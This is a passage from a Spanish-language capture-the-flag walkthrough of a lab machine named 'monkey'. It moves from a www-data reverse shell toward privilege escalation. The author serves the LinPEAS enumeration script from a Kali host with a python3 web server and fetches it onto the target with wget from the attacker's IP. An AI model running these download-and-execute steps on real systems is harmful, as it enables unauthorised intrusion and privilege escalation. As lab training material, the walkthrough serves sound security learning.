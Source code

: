 No podemos encontrar la otra bandera, ya que se encuentra en el usuario root y nosotros `www-data` no tenemos permisos.

## Escalar privilegios
Ahora buscaremos la manera de escalar privilegios en la máquina.

Desde este usuario podemos ver las carpetas, recursos, conexiones de red, puerto y toda la información de manera manual, pero para eso tenemos un scrip llamado LinPEAS, que nos permite hacer un inventario del sistema, buscamos carpeta, procesos, conexiones, contraseña, etc.

Descargamos <A HREF="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"> Linpeas </A>en nuestra máquina  kali

Entramos a la carpeta de descargas para ver si se descargó correctamente 
<figure>
        <a href="/imagenes/maquinas/monkey/17.png"><img src="/imagenes/maquinas/monkey/17.png"></a>
</figure>

abrimos una terminar en esta carpeta y levantamos un servicio web con python3 en el puerto 8083 este puerto puede ser a su elección.
{% highlight bash %}
┌──(cris㉿kali)-[~/Downloads]
└─$ python3 -m http.server 8083
Serving HTTP on 0.0.0.0 port 8083 (http://0.0.0.0:8083/) ...
{% endhighlight %}
Esto nos permite levantar una web para descargar archivos de la carpeta donde nos encontramos.

Ahora nos dirigimos al la revshell del usuario `www-data` para descarga el recurso LinPeas

1. Nos movemos a la carpeta `/tmp` y creamos una carpeta `mkdir linpeas`
Descargamos con el comando:
{% highlight bash %}
www-data@monkey:/tmp/linpeas$ wget http://192.168.254.129:8083/linpeas.sh
{% endhighlight %}
<figure>